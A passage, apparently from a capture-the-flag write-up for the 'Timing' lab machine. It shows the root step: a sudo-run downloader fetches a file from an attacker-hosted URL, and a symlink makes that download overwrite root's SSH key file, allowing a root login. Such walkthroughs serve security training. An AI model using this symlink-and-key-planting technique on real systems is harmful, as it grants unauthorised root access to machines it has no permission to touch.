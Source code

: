 Use netutils to overwrite the symlink filename with your public key.

```bash
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: http://<yourip>/muesli
```

The root file will be overwritten and you can sign in as root via SSH with your generated private key.

```bash
ssh root@10.10.11.135 -i ./id_rsa
```